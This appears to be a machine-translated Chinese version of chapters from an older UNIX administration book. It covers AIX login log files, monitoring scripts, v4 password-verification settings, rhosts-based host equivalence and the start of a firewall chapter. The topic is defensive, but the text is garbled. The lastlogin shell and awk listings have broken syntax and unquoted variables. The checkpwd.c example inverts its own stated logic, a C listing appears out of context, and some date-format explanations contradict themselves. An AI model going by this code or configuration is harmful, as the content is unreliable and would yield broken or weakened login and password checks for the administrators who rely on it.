监控用户登录对于 UNIX 系统的安全性很重要。系统管理员需要知道是否有人尝试获得未经授权的访问（例如，如果有人尝试了某个用户 ID 的密码）。AIX v3.2.5 维护了多个包含登录和失败登录信息的文件，包括时间和日期、远程主机名和终端名称等详细信息。AIX  however 不提供该信息的自动报告设施。本章描述了 AIX 存储登录信息的文件，并介绍了在发生可疑活动时生成邮件消息的一些工具。

## 影子密码文件

存储在世界可读密码文件 `/etc/passwd` 中的编码用户密码构成了明显的 安全风险。任何坏人都可以 使用 `ftp` 命令将此文件复制到本地或远程，然后使用密码破解程序 [1, 2]。

AIX 维护一个影子密码文件，`/etc/security/passwd`。该文件包含加密的密码，并在 `/etc/passwd` 文件中包含感叹号 (!) 作为用户 ID 的密码时使用。`/etc/security/passwd` 由用户 root 拥有，并且仅 root 具有读写权限。这使得相关用户详细信息可供普通用户访问，同时保护编码密码。


图 8.1 显示了 /etc/passwd 和 /etc/security/passwd 文件中的示例条目。第一行是 /etc/passwd 中用户的条目；接下来的四行是 /etc/security/passwd 中用户的条目。password 是编码后的密码，lastupdate 是最后一次密码更改的时间和日期，以自 1970 年 1 月 1 日（epoch）以来的秒数计。flags 可以是以下值之一。

NOCHECK /etc/security/login.cfg 中定义的密码限制不被强制执行。这些限制定义了密码老化、字符集以及密码中字符的最大重复次数。

ADMCHG 密码最后是由安全组成员更改的。用户登录时必须更改密码。

ADMIN 只有 root 可以更改此密码。

## 日志文件

AIX 在其中存储登录相关数据的日志文件维护了多个文件。除 /etc/security/lastlog 外，所有这些文件都会一直增长，直到手动减小为止。

/etc/security/failedlogin 包含因任何原因失败的所有登录，无论是无效密码还是用户 ID。此文件包含二进制数据，并且不记录失败的 su 命令。文件的内容可以用 who /etc/security/failedlogin 显示，如以下示例所示。

```
richter pts/4 Sep 09 10:50 (tiger)
root pts/4 Sep 09 10:50 (tiger)
UNKNOWN pts/4 Sep 09 10:50 (tiger)
```

输出列出用户 ID、终端、时间和日期，以及如果登录来自另一台机器则列出远程主机。未知用户 ID 被记为 UNKNOWN。



/var/adm/wtmp 记录所有登录和注销事件。此文件还包括通过 cron 或 at 启动的批处理程序引起的条目，以及由 init 引起的运行级别更改。此文件具有与 /etc/security/failedlogin 相同的格式。如果要记录条目，则必须存在此文件。

/var/adm/sulog 包含 su 命令的所有调用。它是一个 ASCII 文件，其条目如下例所示。

```
SU 09/06 14:09 + pts/1 richter-root
SU 09/06 14:20 - pts/4 richter-root
```

每一行代表一次 su 调用，包含日期、时间、终端、命令的成功 (+) 或失败 (-) 、调用者的用户 ID（本例中为 richter），以及获得的权限（root）。如果要记录条目，则必须存在此文件。

/etc/security/lastlog 包含每个用户最近一次成功或失败登录的详细信息，例如终端、时间和日期，如以下示例所示。

```
richter:
  time_last_login = 779093602
  tty_last_login = hft/0
  host_last_login = tiger
  unsuccessful_login_count = 0
  time_last_unsuccessful_login = 779039875
  tty_last_unsuccessful_login = hft/0
  host_last_unsuccessful_login = tiger
```

这是一个由 root 拥有的 ASCII 文件。time 以自 epoch 以来的秒数记录。成功登录会将字段 unsuccessful_login_count 重置为 0。

## 报告工具

我在此介绍的工具每天检查 /etc/security/failedlogin 并将结果通过邮件发送给系统管理员。lastlogin shell 脚本（清单 8.1）提供 /etc/security/lastlog 的可打印输出。logins 脚本（清单 8.3）按月压缩并保留 /var/adm/sulog 和 /var/adm/wtmp。安全漏洞的影响有时需要一段时间才会显现。通过保留 sulog 和 wtmp 文件以供参考，系统管理员可能能够找到最近更改的系统二进制文件，并使用 inode 和文件更改时间来追踪当时谁已登录以及使用了哪个终端或远程主机。

## 重新打印登录数据

lastlogin shell 脚本读取 /etc/security/lastlog 并根据各种选择标准报告用户。命令语法如下。

```
lastlogin [-c number] [-l days|-r days|-u days] [-h hosts] [-t ttys] [-f file] [user...]
```

### 清单 8.1 lastlogin shell 脚本提供 /etc/security/lastlog 的可打印输出。

```
# Thomas Richter
# Print the last logins in human readable form
# lastlogin [-c number] [-l units|-r units|-u units] [-h hosts] \
# [ -t ttys] [-f file] [user...]
# Following flags are supported:
# -c number: List all users which have an invalid login count
# greater or equal than number.
# -f file: Read input from file, default is /etc/security/lastlog.
# -h hostlist: List all users who logged on from a host in hostlist.
# Hostlist is a comma separated list of host names.
# Default is any host.
# -l units: List all users who have logged on during the last n units.
# If units is zero, list the last logged on details of every entry.
# Displayed fields are time_last_login, tty_last_login,
# host_last_login and unsuccessful_login_count.
# -r units: List all users whose log on failed on during the last n units.
# If units is zero, list refused logged data of every entry.
# Displayed fields are time_last_unsuccessful_login, tty_last_unsuccessful_login,
# host_last_unsuccessful_login and unsuccessful_login_count.
# -t terminallist: List all users who logged on from a terminal in terminallist.
# Terminallist is a comma separated list of terminal names. Default is any terminal.
# -u units: List all users who have not logged on for than n units.
# Displayed fields are time_last_login, tty_last_login,
# host_last_login and unsuccessful_login_count.
# Parameter can be user names.
# All options are and conditions.
# Terminallist and hostlist are mapped against unsuccessful terminal or
# host names if flag -r is specified.
PATH=/usr/bin
typeset -i counter=1 refused=1 last=1 current unused=1
infile=/etc/security/lastlog
# Sort for last/unsused login time
sortfield="*"
current="/var/adm/local/cvttime"
ttyList="*"
hostList="*"
```


# 列表 8.1（续）

```
# Check if the first parameter is acceptable flags l, r and u are mutually
# exclusive. Also convert a unit parameter into seconds. Acceptable units are
# M (in seconds), h (hours), d (days) and m (month). Others units are mapped to days.
function checkarg
{
    if [[ $2 > -1 || $3 > -1 ]]
    then
        print -u2 "usage $0##/*: parameter combination invalid"
        exit 2
    fi
    unit=`expr $1 : '.*\([Mhwdm]\s\)'`
    value=`expr $1 : '\([0-9]*\)'`
    case $unit
    :: ) nSeconds=60
    :: h) nSeconds=3600
    :: d) nSeconds=86400
    :: w) nSeconds=604800
    :: m) nSeconds=2592000
    :: *) nSeconds=86400
    esac
    typeset -i result
    { result = $value * $seconds }
    [[ $result -eq 0 ]] && print $current; return; ]
    print $result
}

while getopts :f:r:i:u:h:t: opt
do
    case $opt
    :: r) refused=`checkarg $OPTARG $unused $last`
          sortfield="-d"
    :: u) unused=`checkarg $OPTARG $refused $last`
    :: l) last=`checkarg $OPTARG $unused $refused`
    :: c) counter=$OPTARG
    :: f) infile=$OPTARG
    :: h) hostlist=$OPTARG
    :: t) ttylist=$OPTARG
    :: ?) print -u2 "usage $0##/*: [-c number] [- units] [-r units] [-u units] \
[-h hosts] [-t ttys] [-f file] [user...]"
          exit 1
    :: :) # Options specified without a value
          print -u2 "$0##/*: $OPTARG requires a value"
          exit 1
    esac
done
shift OPTIND-1
# Get the list of users if any and build a comma separated list of users
for i in "$@"
do
    if [ -n "$userlist" ]
    then
        userlist="$userlist,$i"
    else
        userlist="$i"
    fi
done
```

# 列表 8.1（续）

```
awk -v userlist=userlist -v hostlist=hostlist -v ttylist=ttylist \
    -v current=current -v refused=refused -v unused=unused -v last=last \
    -v counter=counter
# Check if name is in the list of names separated by comma. Empty list means
# everybody/everything.
function inlist(name, list) {
    if( list == "" )
        return 1
    split(list, array, ",")
    for( i in array )
        if( name == array[i] )
            return 1
    return 0
}

function hostname(name, list) {
    if( list == "" )
        return 1
    split(list, array, ",")
    for( i in array ) {
        len = length(array[i])
        if( len > length(name) )
            len = length(name)
        compare = substr(name, 1, len)
        compare2 = substr(array[i], 1, len)
        # print compare, compare2
        if( compare == compare2 )
            return 1
    }
    return 0
}

# Check if time is in range, if the flag was not set (value -1) return true.
function qualify(value, limit, flag) {
    if( flag == -1 || value >= limit )
        return 1
    return 0
}

function output() {
    if( refused > -1 ) {
        search_tty = tty
        search_host = host
    } else {
        search_tty = tty
        search_host = host
    }
    # Check if entry matches output criteria
    if( inlist(user, userlist) == 0 \
        && inlist(search_tty, ttylist) == 0 \
        && hostname(search_host, hostlist) == 0 \
        && qualify(last, counter, counter) == 0 \
        && qualify(utime, current - refused, refused) == 0 \
        && qualify(time, -current - unused, unused) == 0 \
        && qualify(time, current - last, last) == 0 ) {
        print user, Uattempt, Uhost, Utty, Utime, host, tty, time;
    }
}
```

以下标志受支持。

- -c number 列出无效登录次数大于或等于 number 的所有用户。
- -f file 从文件读取输入；默认是 /etc/security/lastlog。
- -h hostlist 列出从 hostlist 中的主机登录的所有用户，hostlist 为以逗号分隔的主机名列表；默认是任意主机。
- -l units 列出在最近 units 内登录过的所有用户。如果 units 为 0，则列出每个条目的最后登录详细信息。显示的字段为 time_last_login、tty_last_login、host_last_login 和 unsuccessful_login_count。
- -r units 列出在最近 units 内登录失败的所有用户。如果 units 为 0，则列出每个条目的拒绝登录数据。显示的字段为

# 列表 8.1（续）

```
BEGIN { # Set all variables to unused values
first=1;
/\[a-zA-Z0-9]*:/ {
if ( first == 0 ) {
output();
}
first = 0
len = length
user = substr($1, 1, len - 1)
}
# time_last_login/ { time = $3 }
# tty_last_login/ { tty = $3 }
# host_last_login/ { host = $3 }
# unsuccessful_login_count/ { lattempt = $3 }
# time_last_unsuccessful_login/ { ltime = $3 }
# tty_last_unsuccessful_login/ { Utty = $3 }
# host_last_unsuccessful_login/ { Uhost = $3 }
END
{ output(); }
} $infile | sort -t ' ' $sortfield -n
while read user failed ftime fhost ftty ftime
do
if [[ $failed -ne 1 ]]
then
printf "%8s %3s %s %10s\n" $user $failed \
"/var/adm/local/cvtime -f '%d-%b-%y %H:%M' $ftime" $ftty $fhost
else
printf "%8s %3s %s %10s\n" $user $failed \
"/var/adm/local/cvtime -f '%d-%b-%y %H:%M' $ftime" $tty $host
fi
done
```


`-u units` 列出所有超过 `units` 未登录的用户。显示的字段为 `time_last_login`、`tty_last_login`、`host_last_login` 和 `unsuccessful_login_count`。

`units` 是一个数字，可选择后跟字母 M、h、d、w 或 m，其中 M 代表分钟，h 代表小时，d 代表天，w 代表周，m 代表月。指定的数字按该单位计算并转换为秒。

只有当所有条件都满足时条目才匹配，并且只能指定标志 l、r 或 u 中的一个。如果未指定标志，则假定为 -10。user 可以是一个或多个用户名，以空格分隔。如果未给出，则检查所有用户条目。

## Listing 8.2 (continued)

```c
if( argv[optind] ){
    char *endptr;
    errno = 0;
    /*
    ** Check if number is not too big for us to handle
    */
    epoch = strtol(argv[optind], &endptr, 10);
    if( errno == ERANGE ){
        fprintf(stderr, "%s: parameter %s out of range\n", Prog, argv[optind]);
        exit(2);
    }
    /*
    ** If parameter epoch doesn't start with a digit or doesn't
    ** entirely consist of digits print an error and give up.
    */
    if( strlen(argv[optind]) == 0
        || strlen(argv[optind]) != strspn(argv[optind], "0123456789") ){
        fprintf(stderr, "%s: parameter '%s' is invalid\n", Prog, argv[optind]);
        exit(3);
    }
}
/*
** Default format is output of the date command
*/
if( format == NULL )
    format = "%c%n";
}else{
    if( format == NULL ){
        /* Just print current time in seconds since epoch */
        printf("%ld\n", epoch);
        return 0;
    }

    /* Convert time to human readable format */
    tmpt = localtime(&epoch);
    strftime(buf, sizeof buf, format, tmpt);
    printf("%s", buf);
    return 0;
}
```

terminallist 和 hostlist 在标志 -r 被指定的情况下按以下示例映射到不成功的终端或主机名。

```
User  FailedDate  Time    Tty     Host
guest1  08-Jul-94 10:30 pts/0 os2box
adm     0   22-Aug-94 16:01 pts/3 9.20.183.155
root    0   29-Aug-94 13:29 hft/0 tiger
richter 0   8-Sep-94 16:58 hft/0 tiger
```

lastlogin -u10 -htiger 的输出如下。

```
User  FailedDate  Time    Tty     Host
root    0   29-Aug-94 13:29 hft/0 tiger
```

## Time Conversion

/etc/security/lastlog 以自 epoch 以来的秒数存储时间。cvttime.c（Listing 8.2）将自 epoch 以来的秒数转换为用户可读格式，类似于 date 命令的输出。不带任何参数调用时，它返回自 epoch 以来的当前时间，单位为秒。可选标志 -f 决定应打印时间的哪些部分。格式与 C 库函数 strftime 相同。

## Logfiles Maintenance

logins shell 脚本（Listing 8.3）由 cron 每天调用一次。它检查压缩文件 sulog.MM.Z 或 wtmp.MM.Z（其中 MM 代表月份）是否已存在于目录 /var/adm/local 中。如果该文件不存在或是在去年创建的，则对应的 /var/adm 文件会被压缩并存储在 /var/adm/local 目录中。原始文件随后会被缩减为零大小。请注意，必须存在这些文件才能写入条目。

如果 /etc/security/failedlogin 的大小大于零，则文件内容会被邮件发送给系统管理员。随后该文件也会被缩减为零大小。

## Summary

这些工具使登录日志文件保持小巧，同时为参考维护最近几个月的备份副本。lastlogin 使系统管理员能够查询用户账户登录数据并自动监控用户账户。

## References

+ 1. Wood, Patrick H., and Stephen G. Kochman. *UNIX System Security*, Indianapolis, IN: Hayden Books, 1985.
+ 2. Farrow, Rik. *UNIX System Security*. Reading, MA: Addison Wesley, 1991.
+ 3. IBM. "File Reference (IBM RISC System/6000)", GC23-2200-04. 1988.

## Password Verification
in AIX v4

Thomas Richter

AIX v4 引入了控制系统访问的新工具和扩展工具。它允许系统管理员编写自己的密码验证函数，并扩展系统登录过程以调用这些新函数进行用户密码验证。它允许系统管理员为每个用户指定允许和禁止的登录时间、终端和端口，并在一定次数的登录失败后锁定账户。端口可以独立于账户进行监控：端口在登录失败后可被锁定一段时间，并在给定间隔内超过失败登录尝试阈值后可被完全关闭。锁定后的端口可在闲置一段时间后自动启用。这些功能可防止密码破解程序在同一端口上探测不同的用户 ID。

在 v4 中，密码历史记录可用。系统可防止在给定时间范围内和密码循环内重复使用密码。例如，如果密码在最近使用密码列表中，则不能重复使用。列表的大小可配置，并且可以指定字典来检查新密码。

本章探讨了 v4 中引入的登录配置和用户验证功能，然后解释如何编写和实现系统密码验证函数。


## 配置文件

登录过程引用文件 /etc/passwd、/etc/security/passwd、/etc/security/login.cfg 和 /etc/security/user。/etc/passwd 是标准的 UNIX 密码文件，由 root 拥有且可供所有人读取。原始 UNIX 密码文件的布局和弱点已在第 8 章中解释 [1, 2, 3, 4]。作为补救措施，AIX 使用影子密码文件 /etc/security/passwd（图 9.1），该文件由 root 拥有且仅 root 具有读写权限。

如图 9.1 所示，/etc/passwd 中的第二个字段要么包含感叹号，要么为空，在这种情况下用户没有密码。用户 ID 用作在 /etc/security/passwd 中查找属性的键。password 属性引用编码后的密码，而 lastupdate 是密码最后更改时间的 epoch 时间（自 1970 年 1 月 1 日午夜以来的秒数）。flags 包含有关密码更改和检查的附加信息 [5]。

文件 /etc/security/login.cfg 从 AIX v3 开始发生了很大变化。它分为三个部分：端口配置、密码验证规则和用户定义。默认段适用于所有端口。每个端口可以单独定义，并可以覆盖默认段条目中的值。

图 9.2 显示了 v4 /etc/security/login.cfg 的示例。login.cfg 的第一部分指定端口定义的默认属性。由于大多数属性都是此版本新增的，我将列出每个属性并说明其功能。

- herald 端口由 getty 打开时打印的消息。
- logindelay 两次不成功登录之间的延迟秒数。
- logindisable 在端口关闭之前不成功登录尝试的次数。


logininterval 在端口关闭之前，login disable 指定的不成功登录尝试必须发生的秒数。

loginreenable 锁定端口重新打开前需经过的分钟数。

logintimes 在此端口允许或拒绝登录的日期和时间。格式为

[ "!" ] : time "-" time

或

[ "!" ] day [ "-" day ] [ ":" time "-" time ]

或

[ "!" ] date [ "-" date ] [ ":" time "-" time ]

## 图 9.2 一个示例 AIX v4 /etc/security/login.cfg 文件。

```
* First section, port definitions
default:

  logintimes = 1:5:0700-1900,6:0800-1400,10
  login delay = 30
  login disable = 5
  login interval = 360
  login reenable = 60

/dev/console:

  herald = "Welcome to AIX Version 4.1.2\r\nlogin: "

* Second section, alternate login program.
mylogin:
  program = /usr/local2/adm/mylogin
* Third section, user definitions

u sw:
  shells = /usr/bin/bash,/usr/bin/csh,/usr/bin/ksh, maxlogins = 2
  login timeout = 15
```

day 是 0 到 6 之间的数字，表示一周中的某一天，从 0（星期日）开始。date 和 time 均为四位数字，格式为 mmdd 和 hhmm，且必须带前导 0。month 范围从 0 代表一月到 11 代表十二月。例如，0001-0231 表示从 1 月 1 日到 3 月 31 日。dd 可以是 00，表示月份的第一天或最后一天，具体取决于其出现在开始或结束上下文中。例如，0700-1000 表示从八月的第一天到十一月的最后一天。

time 是 24 小时制时钟，始终以冒号为前缀。没有前导感叹号的条目允许在该时间内访问；前导感叹号则拒绝访问。可以指定多个值，以逗号分隔。图 9.2 中的示例条目允许周一至周五上午 7 点至晚上 7 点登录，周六上午 8 点至下午 2 点登录，周日不允许登录。

login timeout 用户输入密码的超时秒数。

maxlogins 每个用户的同时登录数。这包括 su 和 telnet 会话。

shells 有效命令 shell 的列表。

login.cfg 的第二部分（图 9.2）用于调用备用登录程序时使用。第三部分只有一个段，适用于所有用户，必须命名为 usw。文件 /etc/security/user（图 9.3）包含每个用户的条目，默认段适用于所有用户。可以按用户指定密码规则、登录时间、密码字典和密码扩展规则。还有许多其他选项，例如设置用户的初始 umask 和远程登录权限 [6]。

图 9.3 中显示的属性在以下文本中列出。

ttys 有效登录终端的列表。

auth1 主要授权方法。值包括 SYSTEM 表示默认密码验证，NONE 表示不检查，以及 token;name 表示备用登录程序，其中 token 是在 /etc/security/login.cfg 第二部分中搜索时的键，name 是要验证的用户 ID。

auth2 次要授权方法。值与 auth1 相同。

SYSTEM 描述登录要求，可能由多种或备选方法组成。值包括 NONE 表示不进行密码检查，files 仅本地认证，compat 表示本地和网络信息系统（NIS）认证。


logintimes 此用户的登录次数。语法与 /etc/security/login.cfg 中的相同。

pwdwarntime 提示消息中指示需要更改密码的天数。

pwdchecks 定义本地密码验证程序（清单 9.1）。

dictlist 用于密码检查的密码字典文件名。该文件每行包含一个单词。如果新密码在此文件中找到，则密码将被拒绝。

loginretries 在账户被禁用之前失败的登录次数。

histexpire 密码可被重用的时间（以周为单位）。

histsize 用户不能重用的以前密码的数量。

## 图 9.3 一个示例 /etc/security/user 文件。

```
default:

  ttys = ALL
  auth1 = SYSTEM
  auth2 = NONE
  SYSTEM = "compat"
  pwdwarntime = 3
  pwdchecks = /usr/local2/adm/checkpwd
  dictlist = /usr/local2/adm/pwddictionary
  loginretries = 3
  histexpire = 52
  histsize = 25
  minalpha = 1
  minother = 1
  mindiff = 1
  maxrepeats = 2
  minlen = 6
  maxage = 8
  minage = 1

richter:

  logintimes = 10
```

第二个部分的示例

minalpha 密码中字母字符的最小数量。

minother 密码中非字母字符的最小数量。

mindiff 旧密码和新密码之间必须不同的字符的最小数量。

maxrepeats 字符在密码中可以出现的最大次数。

minlen 密码的最小长度。

maxage 密码有效的最大周数。

minage 密码可以被更改前的最小周数。

## 清单 9.1 checkpwd.c 是一个用于扩展密码验证的本地程序。

```
/*
** Password extension function.
**
** Function must have the interface
**   char *user - User name for which invoked
**   char *new - New password in clear text
**   char *old - Old password in clear text
**   char **message - Error Message, must be allocated from heap.
**                 Caller will call free().
**
** Compile with
**   cc -e checkpwd -o checkpwd checkpwd
**
** Return false when password contains userid, otherwise return true.
*/

#include <string.h>

int checkpwd(char *user, char *new, char *old, char **message)
{
    char *error = "Userid must not be part of password\n";

    *message = NULL;
    if( strstr(new, user) != NULL )
        return 0;
    *message = strdup(error);
    return 1;
}
```

图 9.3 中的默认配置要求用户每八周更改一次密码。密码必须至少包含一个字母字符和一个非字母字符，并且每个字符最多可重复一次。新的密码会与字典文件 /usr/local/adm/pwdict/dictionary 进行检查，并使用位于 /usr/local/adm/checkpwd 的本地开发的可加载模块进行验证。密码在一年内不能被重用，并且每个新密码必须与之前的 25 个密码不同。密码到期前三天，用户在登录时会收到提醒。周日的登录被禁用。

密码历史已启用；编码后的密码、更改时间以及所属的用户 ID 存储在 /etc/security/pwdhist.dir 中。Root 拥有此文件，并且是唯一具有读写权限的用户。

## 日志记录

文件 /etc/security/lastlog 和 /etc/security/failedlogin 记录每个用户的失败登录尝试。记录包括时间、日期、终端、用户 ID、远程主机，以及自上次成功登录以来不成功的尝试次数（有关 AIX v3 登录配置的详细描述以及用于自动化登录监控的工具，请参阅第 8 章）。如果不成功的登录尝试次数超过 loginretries 值，则账户会被记录，并在用户尝试登录时发出警告消息。

/etc/security/portlog 为每个端口包含失败登录发生的时间以及端口被锁定的时间。两者在端口重新启用时都会被重置。不成功的登录时间和次数与 logininterval 和 logindisable 的值进行比较，以确定端口是否应被锁定。

## 扩展密码验证

正如我前面所述，您可以为 AIX v4 的密码验证函数编写自己的扩展。扩展密码验证需要您编写一个 C 程序，例如 checkpwd.c（清单 9.1）并创建动态可加载对象文件 [6]。编译示例代码时使用 -e checkpwd 选项。这会导致编译器使用 checkpwd() 作为入口点而不是 main()。

您可以使用除 main() 之外的任何函数名。登录过程使用 "load system" 调用加载 pwdchecks 属性中列出的文件。系统调用返回使用 -e 选项指定的函数的地址，然后调用该函数。函数的返回值表示成功（0）或失败（任何其他值）。返回的错误消息的内存必须从堆中分配；登录过程将释放它。


编写自己的密码扩展需要谨慎。首先，也是最重要的，可加载文件必须放置在安全目录中，且权限仅允许 root 访问。普通用户不得被允许替换此文件。代码作为登录过程的一部分执行，使用 root 的环境、凭据和资源限制；因此，你应避免创建子进程或创建和打开文件。不要调用 `exit`：这将终止登录、`su` 和 `passwd` 程序，从而用户可能完全无法登录。如果更改信号处理程序，请在函数返回前将其重置为原始值。调用进程也使用其中的一些处理程序。

## Alternate and Additional Login Checks

AIX v4 允许你替换或增强登录过程。额外的程序必须在 `/etc/security/login.cfg` 的第二部分中定义为受信任的登录程序。图 9.4 列出了键 `mylogin` 并引用了可执行文件 `/usr/local2/adm/mylogin`。该程序可根据 `/etc/security/user` 中属性 `auth1` 的序列，替代、或在传统 UNIX 密码提示之前或之后被调用。

在图 9.4 的登录中，属性 `auth1` 将调用 `/usr/local2/adm/mylogin`，`richter` 为其唯一参数。这是该程序确保用户身份的责任。除了密码之外，可以考虑指纹或语音检查设备。退出值为 0 表示成功；任何其他值表示失败。由于 SYSTEM 的值被设置为 NONE，因此不会调用其他身份验证程序。另一方面，

```
SYSTEM = "files"
auth1 = SYSTEM,mylogin:richter
```

先调用标准登录程序，然后再调用本地程序。

```
Auth1 = mylogin:richter,SYSTEM
```

反转了顺序。如果两者都表示成功，则授予访问权限。

**Figure 9.4** `login.cfg` file shows an alternate login program for the user `richter`.

```text
richter:
    SYSTEM = NONE
    auth1 = mylogin:richter
```

当你编写自己的登录程序时，与扩展密码验证相同的警告同样适用。然而，不需要特殊的编译标志。
图 9.5 (mylogin.c) 显示了一个用作替代登录程序的示例程序。函数 authenticate 用于验证用户的密码。authenticate 维护状态信息，并且可能被多次调用以验证用户。非零的 reenter 值表示函数必须再次被调用。对 authenticate 的第一次调用在参数 message 中返回密码提示。第二次调用验证用户的响应；参数 prompt 包含明文密码。密码不匹配由非零返回码指示，并且错误消息返回在参数 message 中。然而，如果你将 SYSTEM = NONE 设置，authenticate 不会验证用户的密码。

### Figure 9.5 A sample program, mylogin.c, used as an alternative login program.

```
/*
** Alternate login program
** Invoked from system login process with user name
** as the only parameter.
*/

#include <stdio.h>
#include <stdlib.h>
#include <stddef.h>

int main(int argc, char **argv)
{
    extern int errno;
    int rc, reenter;
    char *message = "this is a message:";
    char *prompt;
    char *user = *++argv;

    prompt = NULL;
    rc = authenticate(user, prompt, &reenter, &message);
    while( rc == 0 && reenter ){
        prompt = getpass(message);
        rc = authenticate(user, prompt, &reenter, &message);
    }
    if( rc )
        fprintf(stderr, "%s", message);
    return rc;
}
```

## References

- 1. Cheswick, William P. and Steven M. Bellovin. *Firewalls and Internet Security*. Reading, MA: Addison Wesley, 1994.
- 2. Fiedler, David, and Bruce H. Hunter. *UNIX System Administration*. Indianapolis, IN: Hayden Books, 1988.
- 3. Foxley, Eric. *UNIX for Super-Users*. Reading, MA: Addison Wesley, 1985.
- 4. Wood, Patrick H., and Stephen G. Kochman. *UNIX System Security*. Indianapolis, IN: Hayden Books, 1985.
- 5. "AIX Version 4 File Reference (IBM RISC System/6000)", SC23-2512-00. 1994.
- 6. Chapman, Scott. "Extending password composition rules in AIX Version 4.1," *AIXtra: IBM's Magazine for AIX Professionals*, 1995 (vol. 4, no. 5), pp. 57–61.


## 等价性

*Chris Hare*

等价性，也称为受信任访问，是网络安全中经常被忽视的一个领域。等价性在支持 BSD `r` 命令的环境中最有用——`rlogin`、`rcmd(rsh)` 和 `rcp`。

TCP/IP 环境允许两种类型的等价性：主机和用户。*主机等价性*，或受信任主机访问，可以由系统管理员配置。这种等价性允许指定系统上的所有用户无需使用密码即可访问本地系统。主机等价性通过文件 `/etc/hosts.equiv` 控制。

*用户等价性*，或受信任用户访问，由用户控制。它允许该用户以及指定的其他用户无需使用密码即可访问该账户。这种访问通过用户文件 `$HOME/.rhosts` 管理。

## 网络基础

组织通常起初只有一两台计算机，然后再添加更多，突然之间就有了网络。除非扩展路径经过仔细规划，否则安全性可能会被无意中破坏。

例如，我的登录名曾经只是 chris。由于规划不善，我们公司另一家办公室的另一位用户也有 chris 的登录名。两个办公室当时并未使用 TCP/IP 连接；然而，当在两个办公室之间引入一条 SLIP 线路时，问题突然出现了。最明显的问题是，我们每个人登录名都是 chris 都可以访问对方的文件。

虽然更改其中一个用户的登录名解决了眼前的问题，但它并没有解决真正的安全问题——每个用户都应该为网络上的每台机器拥有一个账户，且每个账户具有相同的用户 ID（UID）。

作为提供等价性的第一步，在设置网络时请牢记以下几点。

- 你本质上是在组织中的所有机器上复制 /etc/passwd 和 /etc/group 文件。因此，每个用户必须拥有唯一的登录名和 UID。
- 组权限跨越系统边界，因此对组也适用相同的准则。所有机器上必须存在相同的组以及相同的组 ID（GID）。

## 配置主机等价性

必须设置并运行主机等价性才能使用命令 rcmd (rsh) 和 rcp。系统管理员使用文件 /etc/hosts.equiv 配置主机等价性，如图 10.1 所示。该文件由主机名组成，每行一个（在文件中记录网络管理员是谁也是一个好主意）。

hosts.equiv 文件中的每个条目都是受信任的。这意味着除 root 外，被命名机器上的用户可以无需密码访问此机器上的其等价账户。


如图 10.2 所示的配置中，两台机器 oreo 和 wabbit 都拥有我的用户名 chare。如果我当前登录到 wabbit，并发出命令

```
rlogin oreo
```

在建立了主机等价性的情况下，我可以无需输入密码登录到 oreo。如果未建立主机等价性，则我将被要求在远程机器上输入密码。

关于 /etc/hosts.equiv 的条目，有两点需要注意：

- 远程机器上的所有用户都是受信任的，有一个例外，那就是
- root 从不被信任。

hosts.equiv 文件还有第二种格式，如图 10.3 所示。这种格式列出系统名称和用户名。加上用户名后，用户可以在 /etc/passwd 中列出的任何用户名下登录。

### Figure 10.2 A sample configuration illustrates equivalent account access through the use of hosts.equiv on two machines.


### Figure 10.3 An alternate format for the hosts.equiv file, which allows the system administrator to set user equivalency.

```
oreo chare
wabbit chare
ovide andrewg
```

## 等价性是如何工作的？

本地主机和远程主机在确定等价性时都发挥作用。当用户运行 r 命令时，本地主机尝试验证主机名。如果主机名不在 /etc/hosts 中且无法通过域名服务器解析，本地主机将中止命令并通知用户主机名无效。如果主机名得到验证，本地主机将通过 TCP/IP 连接到远程主机。

当用户运行 r 命令时，远程主机会在 /etc/passwd 中查找请求的账户名。如果账户名不存在，远程主机将中止命令。远程主机检查账户是否具有加密密码：如果没有密码，则执行命令。远程主机还检查用户是否为 root。如果用户是 root，远程主机将检查 /.rhosts 是否包含主机名；如果存在，则执行命令。 （这是用户等价性的一个例子。）如果用户不是 root，则远程主机将检查 /etc/hosts.equiv 是否包含本地主机名。如果找到，则执行命令。如果没有匹配项，远程主机将查找用户 $HOME 目录中的 .rhosts 文件。如果 .rhosts 不存在或没有匹配项，rcp 和 rcmd(rsh) 命令将失败，而 rlogin 将提示输入密码。

## 等价性的安全问题

在大量使用 root 等价性的组织中，安全漏洞的可能性很大。如果有人发现某台机器上的 root 密码，他或她将作为 root 访问网络中的所有机器。


我的公司几个办公室共享大量信息，但由于我们仅使用 19.2 千波特 PPP 链路，NFS 使用并不实际。为了避免使用 root 等价，我们通过 rdist 发送部分信息。在涉及这些交易的机器上，我们创建了一个具有写入权限的特殊用户，可以写入相应目录中的文件。

请记住，仅拥有主机等价而没有用户等价也可能是危险的，因为网络外部具有与你的用户相同用户名的主机将几乎不受限制地访问你的系统。

有关主机和用户等价的更多信息，请参阅你的系统文档以及 Craig Hunt 所著的书籍 *TCP/IP Network Administration*（Sebastopol, CA: O'Reilly and Associates, 1992）。

## Network Construction:
使用防火墙

Chris Hare

随着互联网变得越来越流行，控制互联网与私有网络之间交互的需求已成为系统和网络管理员的关键问题。当前策略范围从非常严格——完全不允许访问互联网——到放任自流——所有用户完全访问。这两种极端都是危险的。第一种拒绝用户访问他们可能有正当需求的信息；第二种打开了管理噩梦的潘多拉魔盒。本章探讨如何弥合这两种方法，以满足合法用户需求，同时最大限度地降低安全和其他风险。

### The Definition of a Firewall

在建筑学中，防火墙是防火墙，用于防止火灾从建筑结构的一部分蔓延到另一部分。这一概念在计算机技术中以类似的方式适用，只是“火灾”通常起源于系统本身之外。对于计算机用途，防火墙由一台或多台机器组成，这些机器通过一组过滤器与外部网络（例如互联网）和内部或私有网络隔开，从而提供保护。过滤器可用于各种任务，包括数据包过滤、服务中继等。与建筑中使用的防火墙一样，计算机用途的防火墙也有不同类型，每种类型提供不同级别的保护。

### The Costs

即使可以从互联网免费下载防火墙软件，防火墙也不是免费的。事实上，成本可能相当可观。一些主要成本包括：

- 初始硬件采购（如果你手头没有可用的设备）；
- 硬件的持续维护（请记住，它可能会并且确实会发生故障）；
- 相关软件的开发或采购；
- 软件更新和维护费用；
- 管理和设置培训；
- 防火墙的持续维护和故障排除；
- 因网关配置错误或服务被阻止造成的损失；以及
- 与开放连接相比，某些服务或便利性的丧失。

软件开发或采购成本可能非常可观。即使你选择使用免费的防火墙软件，你也必须自行编译并使其正常工作。因此，你必须拥有将软件编译并运行的内部资源。

这些成本必须与没有防火墙的成本相权衡，包括：

- 处理安全漏洞和入侵所花费的时间和精力；
